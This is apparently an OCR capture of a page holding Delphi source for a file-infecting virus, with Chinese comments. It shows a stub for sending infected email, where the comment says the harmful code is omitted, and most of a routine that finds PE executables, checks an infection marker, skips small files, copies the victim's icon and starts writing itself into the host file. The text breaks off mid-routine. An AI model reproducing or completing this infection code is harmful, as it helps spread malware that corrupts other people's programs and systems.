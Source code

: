 发带毒邮件

```
{ 发带毒邮件 }
procedure SendMail;//此处省略了带危害性的代码
begin
end;
```

感染 `PE` 文件

```
{ 感染PE文件 }
procedure InfectOneFile(FileName: string);
var
  HdrStream, SrcStream: TFileStream;
  IcoStream, DstStream: TMemoryStream;
  iID: LongInt;
  aIcon: TIcon;
  Infected, IsPE: Boolean;
  i: Integer;
  Buf: array[0..1] of Char;
begin
  try //出错则文件正在被使用，退出
    if CompareText(FileName, 'JAPUSSY.EXE') = 0 then //是自己则不感染
      Exit;
    Infected := False;
    IsPE     := False;
    SrcStream := TFileStream.Create(FileName, fmOpenRead);
    try
      for i := 0 to $108 do //检查PE文件头
      begin
        SrcStream.Seek(i, soFromBeginning);
        SrcStream.Read(Buf, 2);
        if (Buf[0] = #80) and (Buf[1] = #69) then //PE标记
        begin
          IsPE := True; //是PE文件
          Break;
        end;
      end;
      SrcStream.Seek(-4, soFromEnd); //检查感染标记
      SrcStream.Read(iID, 4);
      if (iID = ID) or (SrcStream.Size < 10240) then //太小的文件不感染
        Infected := True;
    finally
      SrcStream.Free;
    end;
    if Infected or (not IsPE) then //如果感染过了或不是PE文件则退出
      Exit;
    IcoStream := TMemoryStream.Create;
    DstStream := TMemoryStream.Create;
    try
      aIcon := TIcon.Create;
      try
        //得到被感染文件的主图标(744字节)，存入流
        aIcon.ReleaseHandle;
        aIcon.Handle := ExtractIcon(HInstance, PChar(FileName), 0);
        aIcon.SaveToStream(IcoStream);
      finally
        aIcon.Free;
      end;
      SrcStream := TFileStream.Create(FileName, fmOpenRead);
      //头文件
      HdrStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
      try
```
